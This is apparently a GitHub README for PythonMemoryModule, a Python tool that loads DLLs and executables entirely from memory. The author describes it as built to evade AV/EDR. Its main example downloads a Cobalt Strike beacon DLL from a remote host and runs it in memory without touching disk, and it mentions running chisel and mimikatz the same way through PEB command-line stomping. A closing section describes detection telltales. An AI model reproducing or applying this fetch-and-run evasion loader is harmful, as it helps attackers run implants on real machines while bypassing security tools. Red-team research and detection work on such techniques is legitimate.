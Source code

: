 ![Supported Python versions](https://img.shields.io/badge/python-3.7+-blue.svg) [![Twitter](https://img.shields.io/twitter/follow/naksyn?label=naksyn&style=social)](https://twitter.com/intent/follow?screen_name=naksyn)

# PythonMemoryModule
pure-python implementation of MemoryModule technique to load a dll or unmanaged exe entirely from memory

<p align="center">
<img width="399" alt="immagine" src="https://user-images.githubusercontent.com/59816245/210533889-424707d3-2c82-4ca3-afaf-cc19857fa2d6.png">
<br>
"Python memory module" AI generated pic - hotpot.ai 
</p>



# What is it

PythonMemoryModule is a Python ctypes porting of the [MemoryModule](https://www.joachim-bauch.de/tutorials/loading-a-dll-from-memory/) technique originally published by [Joachim Bauch](https://github.com/fancycode/MemoryModule). It can load a dll or unmanaged exe using Python without requiring the use of an external library (pyd) and has (partial) support for commandline parameters passing.

It leverages [pefile](https://github.com/erocarrera/pefile) to parse PE headers, [PythonForWindows](https://github.com/hakril/PythonForWindows) to access process parameters, and ctypes for the heavy lifting. 
The tool was originally thought to be used as a [Pyramid](https://github.com/naksyn/Pyramid/) module to provide evasion against AV/EDR by loading dll/exe payloads in python.exe entirely from memory, however other use-cases are possible (IP protection, pyds in-memory loading, spinoffs for other stealthier techniques) so I decided to create a dedicated repo.


# Why it can be useful

 1. It basically allows to use the MemoryModule techinque entirely in Python interpreted language, enabling the loading of a dll from a memory buffer using the stock signed python.exe binary without requiring dropping on disk external code/libraries (such as [pymemorymodule](https://pypi.org/project/pymemorymodule/) bindings) that can be flagged by AV/EDRs or can raise user's suspicion. 
 2. Using MemoryModule technique in compiled languages loaders would require to embed MemoryModule code within the loaders themselves. This can be avoided using Python interpreted language and PythonMemoryModule since the code can be executed dynamically and in memory.
 3. you can get some level of Intellectual Property protection by dynamically in-memory downloading, decrypting and loading dlls that should be hidden from prying eyes. Bear in mind that the dlls can be still recovered from memory and reverse-engineered, but at least it would require some more effort by the attacker.
 4. you can load a stageless payload dll without performing injection or shellcode execution. The loading process mimics the LoadLibrary Windows API (which takes a path on disk as input) without actually calling it and operating in memory.

# How to use it

## Example n.1

In the following example a Cobalt Strike stageless beacon dll is downloaded (not saved on disk), loaded in memory and started by calling the entrypoint. 

```python
import urllib.request
import ctypes
import pythonmemorymodule
request = urllib.request.Request('http://192.168.1.2/beacon.dll')
result = urllib.request.urlopen(request)
buf=result.read()
dll = pythonmemorymodule.MemoryModule(data=buf, debug=True)
startDll = dll.get_proc_addr('StartW')
assert startDll()
#dll.free_library()
```
Note: if you use staging in your malleable profile the dll would not be able to load with LoadLibrary, hence MemoryModule won't work.

![](MemoryModuleCS.gif)

## Example n.2

In the following example we use the commandline passing funcionality to execute chisel in memory.


https://github.com/naksyn/PythonMemoryModule/assets/59816245/cdc91760-1897-450f-9770-1cd2377913c7



## Commandline parameters passing - Partial support

This technique hase been implemented by stomping the Commandline parameter on the PEB at runtime. 
This won't work with every executable since it depends on which functions are used to pass arguments.

Generally, to get a universally working technique would be required to hook GetCommandlineA GetCommandlineW __getmainargs and __wgetmainargs since PEB stomping won't cover all cases, more details [here](
https://blog-30cm-tw.translate.goog/2020/08/windows-c-mainargc-argv.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=it&_x_tr_pto=wapp)

During my testing I found that mimikatz and several go binaries are working just by doing PEB stomping, on the other hand, cmdline passing via PEB stomping alone to mingw and VS compiled binaries won't likely work.

# How to detect it

Using the MemoryModule technique will mostly respect the sections' permissions of the target DLL and avoid the noisy RWX approach. However within the program memory there will be a private commit not backed by a dll on disk and this is a MemoryModule telltale.
